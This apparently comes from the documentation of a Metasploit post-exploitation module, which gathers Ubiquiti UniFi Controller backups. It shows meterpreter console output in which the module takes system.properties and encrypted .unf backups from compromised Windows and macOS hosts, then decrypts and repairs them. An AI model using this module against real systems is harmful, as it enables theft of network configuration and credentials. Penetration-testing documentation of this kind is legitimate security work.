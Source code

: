 ```
```

#### Details

```
msf post(multi/gather/ubiquiti_unifi_backup) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
4.4.4.4                 ubiquiti.system.properties                C:\Users\Administrator\Ubiquiti UniFi\data\system.properties  text/plain                                                              /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
4.4.4.4                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
4.4.4.4                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip
4.4.4.4                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip
```

### Ubiquiti Unifi Controller 5.10.20 on OSX 10.14.4

#### Module

```
msf post(multi/gather/ubiquiti_unifi_backup) > rexploit
[*] Reloading module...

[+] Read UniFi Controller file /Users/unifi/Library/Application Support/Unifi/data/system.properties
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_683102.unf
[+] File 5.10.20.unf DECRYPTED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_122303.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_728913.zip.
[*] Post module execution completed
```
